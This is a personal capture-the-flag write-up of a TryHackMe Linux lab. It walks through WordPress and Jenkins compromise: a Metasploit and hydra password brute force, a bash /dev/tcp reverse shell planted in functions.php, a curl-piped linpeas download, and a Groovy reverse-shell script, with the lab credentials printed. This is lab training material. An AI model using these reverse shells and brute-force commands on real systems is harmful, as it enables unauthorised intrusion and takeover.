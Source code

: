 [<- home](/)

# Relevant [TryHackMe]

<sub>_This is a raw write-up. It accounts for every step taken throughout the challenge, whether or not it was successful. So, expect a lot of rabbitholes and frustration. At the time of writing this, I don't even know if I've solved the challenge myself. You might see a flag somewhere titled **<sup>Assisted by [write-up link]</sup>** which means I used someone else's write-up to complete the challenge. Being a responsible learner, I'm trying my best to accept as little help as possible and only when I'm out of ideas._</sub> 

## _Manual Exploitation_

Let's define the `targ3t` variable to reuse later:

```
targ3t=10.10.84.237
```

Let's perform an `nmap` scan and check for open ports:

```
nmap -A -Pn $targ3t -oN nmap.scan
```

Seems like there's only `22/tcp` and `80/tcp` open and operational. I'll launch a complete scan, just in case:

```
nmap -p- $target -oN nmap.full.scan -vv
```

This is supposed to iterate every single port and confirm if its status.

No more open ports, I'll run another scan for vulnerabilities, on these two ports specifically:

```
nmap --script vuln -p 22,80 $targ3t -oN nmap.vuln.scan -vv
```

Only `http-enum` script for port `80` applied and found several paths:

```
| http-enum:
|   /blog/: Blog
|   /phpmyadmin/: phpMyAdmin
|   /wordpress/wp-login.php: Wordpress login page.
|_  /blog/wp-login.php: Wordpress login page.
```

It clearly has a `/blog/wp-login.php`, although `http-wordpress-users` script returned an error:

```
|_http-wordpress-users: [Error] Wordpress installation was not found. We couldn't find wp-login.php
```

I guess I can use a `wpscan` to see if there are any further vulnerabilities concerning wordpress specifically:

```
wpscan -e -t 10 --detection-mode aggressive --plugins-detection aggressive --plugins-version-detection aggressive --url $targ3t/blog -o wp.scan -v
```

And I'll also launch a similar one for `$targ3t/wordpress`:

```
wpscan -e -t 10 --detection-mode aggressive --plugins-detection aggressive --plugins-version-detection aggressive --url $targ3t/wordpress -o wp1.scan -v
```

Both scans delivered interesting results. For `/blog` path we get and `xml-rpc` vulnerability and several reference to metasploit modules, as well as an `admin` user's existence through brute-force. Much of the same (except for `admin`) was found on the `/wordpress` path. Both paths have a `readme.html` file accessible.

Now that we have to browse the site, let's add a recommended line to the `/etc/hosts` for this machine:

```
10.10.84.237    internal.thm
```

Now let's go to each `readme.html` file:

```
firefox internal.thm/blog/readme.html
firefox internal.thm/wordpress/readme.html
```

Both files are identical and although they don't link to any vulnerable places, it seems like we shouldn't be seeing this at all. Let's continue with our enumeration:

```
feroxbuster -u http://$targ3t -w /usr/share/wordlists/seclists/Discovery/Web-Content/big.txt -o ferox.scan
```

Some paths are accessible but besides the ones we already had discovered, none particularly stand out. To get back to `xml-rpc` vulnerability discovered by `wpscan`, let's see if we can use this scanner: `auxiliary/scanner/http/wordpress_xmlrpc_login`:

```
msfconsole -q -x "use auxiliary/scanner/http/wordpress_xmlrpc_login; set RHOSTS 10.10.84.237; set TARGETURI /blog; set USERNAME admin; set PASS_FILE /usr/share/wordlists/rockyou.txt; run"
```

And it found a password: 

```
[+] 10.10.84.237:80 - Success: 'admin:my2boys' 
```

And going to:

```
firefox internal.thm/blog/wp-login
```

Opens up an admin interface for this user. Manually enumerating the admin panel tells me it won't let me upload a php file for security reasons and it doesn't let me upload images either, due to an error about writing files to server's indicated directory. Theme editor lets us customize front end along with `functions.php`. I'll give a small edit to this file. I'll add the following line before all of the code:

```
exec("/bin/bash -c 'bash -i >& /dev/tcp/10.11.100.243/9876 0>&1'"); __halt_compiler();
```

Start a `netcat` listener on my machine:

```
nc -lvnp 9876
```

And save this edit and go to `internal.thm/blog`

And we have a `www-data` shell! We can't visit any home directories with it though. Let's see if we have any privileged binaries:

```
find / -perm /4000 2>/dev/null
```

We can't use sudo, so these aren't very useful to us. Let's try linpeas this time:

```
curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh | sh
```

I looked through each red string, tried everything, but nothing is worthwhile or working.

<sup>_Assisted by [write-up](https://medium.com/swlh/tryhackme-internal-walkthrough-fdc6c4b569bd):_</sup> I guess we have to run these general commands too from time to time:

```
python -c "import pty; pty.spawn('/bin/bash')"
cd /
find / -type f -name *.txt 2>/dev/null
```

The very first result is `/opt/wp-save.txt`

```
cat /opt/wp-save.txt
```

This returns the user:password pair of one of the users on this machine:

```
ssh aubreanna@internal.thm
```

We're in. There's a `user.txt` file in the home directory:

```
cat user.txt
```

There goes our first flag. There's another file in the directory:

```
cat jenkins.txt
```

It says some `internal Jenkins service is running on 172.17.0.2:8080` Which means it is running as localhost on this server, and only accessible to this server. Let's use SSH tunneling to circumvent this:

```
ssh -L 9876:172.17.0.2:8080 aubreanna@internal.thm
```

Now we need to visit this tunnelled Jenkins service on our local machine:

```
firefox localhost:9876
```

And there it is, the login form. Let's try to brute force it:

```
hydra -l admin -P /usr/share/wordlists/rockyou.txt -s 9876 127.0.0.1 http-post-form '/j_acegi_security_check:j_username=^USER^&j_password=^PASS^&from=%2F&Submit=Sign+in:Invalid' -V
```

The password for `admin` appears to be `__spongebob__`. Now let's log in.

This part is more or less straightforward, we need to go to a __Script Console__ and inject a reverse shell script in Groovy. In this case I just borrowed one from [PayloadsAllThings](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#groovy):

```
String host="10.11.100.243";
int port=4443;
String cmd="/bin/bash";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

And start a reverse shell on our host machine:

```
nc -lvnp 4443
```

And when we hit run at the script console, we get the shell back in netcat. 

Now let's hit the same search command we used previously to get `aubreanna` credentials:

```
find / -type f -name *.txt 2>/dev/null
```

The very first result is `/opt/note.txt`, which discloses `root` password:

```
root:tr0ub13guM!@#123
```

Let's use it to ssh into it:

```
ssh root@internal.thm
```

And once we're in:

```
cat /root/root.txt
```

There goes our root flag!
